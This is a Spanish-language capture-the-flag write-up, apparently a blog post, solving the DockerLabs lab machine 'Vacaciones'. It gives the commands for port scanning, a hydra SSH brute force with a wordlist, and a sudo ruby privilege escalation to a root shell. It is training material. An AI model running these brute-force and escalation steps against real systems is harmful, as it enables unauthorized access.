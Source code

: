 ```yaml
---
layout: post
title: "Vacaciones"
date: 2024-06-29 12:20:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Vacaciones </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/vacaciones/host.png){:.margin}

**1\.** Escaneo los puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/nmap.png){:.margin}

**2\.** En la web visualmente no tenemos nada, pero si vemos la fuente encontramos posibles usuarios.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/80.png){:.margin}
![img](/notas/public/img/dockerlabs/vacaciones/80code.png){:.margin}

**3\.** Haciendo fuerza bruta al ssh.

`echo -e "camilo\njuan" > users.txt`

`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/hydra.png){:.margin}

**4\.** Accedo por ssh con estas credenciales.

`ssh camilo@172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/sshcamilo.png){:.margin}

**5\.** Busco el dichoso correo que nos dejo juan.

`find / -name mail 2>/dev/null | xargs find`

`cat /var/mail/camilo/correo.txt`

![img](/notas/public/img/dockerlabs/vacaciones/find.png){:.margin}

**6\.** Migro al usuario juan.

`su juan`

![img](/notas/public/img/dockerlabs/vacaciones/sujuan.png){:.margin}

**7\.** Encuentro un binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/vacaciones/sudol.png){:.margin}

**8\.** Escalando privilegios, Busco indicaciones del binario en [gtfobins](https://gtfobins.github.io/gtfobins/ruby/#sudo).

`sudo ruby -e 'exec "/bin/bash"'`

![img](/notas/public/img/dockerlabs/vacaciones/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>
